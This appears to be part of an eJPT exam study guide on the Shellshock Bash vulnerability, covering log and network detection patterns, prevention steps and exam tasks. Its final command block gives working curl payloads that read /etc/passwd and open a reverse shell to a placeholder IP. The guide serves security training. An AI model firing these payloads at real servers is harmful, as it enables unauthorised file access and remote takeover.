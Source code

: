 
## 🛡️ Detection and Prevention

### Detection Methods:
```bash
# Log analysis for Shellshock attacks
grep -r "() {" /var/log/apache2/
grep -r "; echo;" /var/log/nginx/

# Network monitoring
tcpdump -A -i eth0 port 80 | grep -i "user-agent.*() {"
```

### Prevention Measures:
1. **Update Bash** to patched versions
2. **Disable CGI** if not required
3. **Input validation** for HTTP headers
4. **Web Application Firewall** rules
5. **Security headers** and restrictions

---

## 🎯 eJPT Exam Focus

### Key Concepts:
1. **CGI vulnerability identification**
2. **HTTP header manipulation**
3. **Bash environment variable exploitation**
4. **Remote code execution techniques**
5. **Manual exploitation with Burp Suite**

### Common Exam Tasks:
- Discover CGI scripts through source code analysis
- Use Nmap scripts for vulnerability detection
- Exploit via Burp Suite Repeater
- Execute system commands for reconnaissance
- Demonstrate impact through file access

### Essential Commands:
```bash
# Discovery
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" target.com

# Manual exploitation
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://target.com/cgi

# Reverse shell
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'" http://target.com/cgi
```
